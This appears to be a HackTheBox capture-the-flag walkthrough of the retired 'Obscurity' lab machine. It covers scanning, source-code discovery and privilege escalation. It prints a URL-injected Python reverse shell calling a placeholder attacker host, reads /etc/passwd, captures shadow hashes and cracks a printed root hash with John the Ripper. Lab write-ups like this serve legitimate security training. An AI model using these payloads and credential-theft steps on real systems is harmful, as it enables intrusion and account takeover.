

HTB Walkthrough | Obscurity
Last updated on May 2020.
Retired machine can be found here.
1. After doing an initial scan with nmap, we find only 2 exposed services: OpenSSH on port 22 and a custom web server on port 8080 - BadHTTPServer.
nmap -p- -T5 -A 10.10.10.168
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp closed http
8080/tcp open http-proxy BadHTTPServer <= custom web server
| fingerprint-strings:
| GetRequest, HTTPOptions:
| Server: BadHTTPServer
|_http-title: 0bscura
2. There is some content on the website which has some useful information:

3. So, now we know there is a file called 'SuperSecureServer.py' which is in "the secret development directory". I used wfuzz to find it but you could probably just get it logically:
wfuzz -w SecLists/Discovery/Web-Content/api/actions.txt --hc 404 http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
4. The mistery directory is develop, so know we have access to the server's source code, in the form of a Python script: http://10.10.10.168:8080/develop/SuperSecureServer.py.
While analysing it, we find something interesting:
5. By exploiting this exec, we can format our request in a way that gets us a shell as wwwdata.
wget http://10.10.10.168:8080/';%20s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('[ATTACKER_IP]',[ATTACKER_PORT]));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);a%20=%20'
7. After looking at /etc/passwd we find our user
cat etc/passwd
...
robert:x:1000:1000:robert:/home/robert:/bin/bash
7. Listing the contents of rober's home directy, we get some interesting files:
ls /home/robert
BetterSSH/BetterSSH.py
check.txt
out.txt
passwordreminder.txt
SuperSecureCrypt.py
user.txt y
8. Let's create a script to find the key
9. Now let's find robert's password
10. Now that we have the user's password we can SSH into the machine, get the user flag and move on to root.
We start by doing some enumeration with LinEnum
./LinEnum.sh
...
User robert may run the following commands on obscure:
(ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
-e
11. Let's run BetterSSH as sudo to test this:
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
Enter password: xxx
Authed!
12. After looking at BetterSSH.py we realise there's a vulnerability we can exploit: we can read the passwords that are stored on /etc/shadow for a period of time on /tmp/SSH/. So we create a script to print them as they're written:

13. Finally, we use JohnTheRipper to crack the hash:
echo "root:$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:18226:0:99999:7" > shadow
echo "root:x:0:0:root:/root:/bin/bash" > passwd
unshadow passwd shadow > crack.password.db
john crack.password.db
14. That's it, hope you enjoyed it!